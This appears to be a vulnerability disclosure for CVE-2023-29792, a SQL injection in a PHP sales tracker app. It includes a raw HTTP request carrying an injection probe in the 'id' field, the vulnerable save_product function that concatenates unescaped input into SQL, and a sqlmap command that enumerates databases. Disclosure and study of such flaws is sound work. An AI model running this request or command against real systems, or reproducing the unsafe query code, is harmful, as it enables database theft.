 # CVE-2023-29792

Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=save_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 620
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbc4qHZLzr0zBDjL
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="id"

1 and 1=1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="code"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="name"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="price"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL--

```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		$check = $this->conn->query("SELECT * FROM `product_list` where `code` = '{$code}' and delete_flag = 0 ".(!empty($id) ? " and id != {$id} " : "")." ")->num_rows;
		if($this->capture_err())
			return $this->capture_err();
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Product Code already exists. Code must be unique";
			return json_encode($resp);
			exit;
		}
		if(empty($id)){
			$sql = "INSERT INTO `product_list` set {$data} ";
		}else{
			$sql = "UPDATE `product_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$cid = !empty($id) ? $id : $this->conn->insert_id;
			$resp['cid'] = $cid;
			$resp['status'] = 'success';
			if(empty($id))
				$resp['msg'] = "New Product successfully saved.";
			else
				$resp['msg'] = " Product successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		// if($resp['status'] == 'success')
		// 	$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

![sourcecode](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202421828.png)

sqlmap command: sqlmap -r /mnt/d/web_temp/sqlattack.txt -pid --batch --dbs

![1](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202856402.png)

![2](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202937055.png)
